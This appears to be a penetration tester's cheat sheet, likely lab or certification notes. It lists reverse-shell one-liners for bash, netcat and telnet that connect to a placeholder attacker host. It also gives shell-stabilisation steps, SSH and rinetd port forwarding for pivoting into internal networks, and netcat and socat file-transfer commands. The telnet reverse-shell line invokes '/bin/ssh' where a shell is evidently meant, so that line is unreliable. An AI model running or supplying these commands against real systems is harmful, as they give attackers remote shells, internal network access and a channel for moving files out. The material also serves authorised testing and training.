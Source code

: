 # Shells

## Stabilizing shell

```text
SHELL=/bin/bash script -q /dev/null
[Ctrl + Z]
stty raw -echo
fg
reset
xterm
```

## Reverse shells

### Bash

```text
bash -c 'bash -i >& /dev/tcp/<lhost>/<lport> 0>&1'
```

### Netcat

```text
nc -e /bin/sh <LHOST> <LPORT>
nc -c /bin/sh <LHOST> <LPORT>
rm /tmp/y;mkfifo /tmp/y;cat /tmp/y|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/y
```

### Telnet

```text
rm /tmp/y;mkfifo /tmp/y;cat /tmp/y|/bin/ssh -i 2>&1|telnet <LHOST> <LPORT> >/tmp/y
```

# Port forwarding

## rinetd

```text
rinetd
cat /etc/rinetd.conf
0.0.0.0 <local_port> <target> <target_port>
sudo service rinetd restart
ss -antp
```

## SSH

```text
# run on target machine
ssh -R 4444:127.0.0.1:3306 kali@<lhost>

# now you can connect to target's mysql port from your kali machine
mysql -u root -h 127.0.0.1 -P 4444
```

```text
# -L local
# -R remote
# -D dynamic

# attacker(a) <---internet---> initial_target(i) <---local_network---> target(t)
a> ssh -N -L 0.0.0.0:<a_port>:<t_ip>:<t_port> <user>@<i_port>

# attacker(a) <---firewall---> target(t)
t> ssh -N -R <a_ip>:<a_port>:localhost:<t_port> <user>@<a_ip>

# cont. on page 606
```

# Transfering files

### Netcat

Netcat is the easiest way to transfer files between Linux systems.

```text
# source
nc -nv <ip> <port> < <file>

# destination
nc -lvnp <port> > <file>
```

### Socat

You can also use socat if you want to use encrypted tunnel.

```text
# source
socat TCP4-LISTEN:<port>,fork file:<src_path>

# destination
socat TCP4:<ip>:<port> file:<dst_path>,create
```

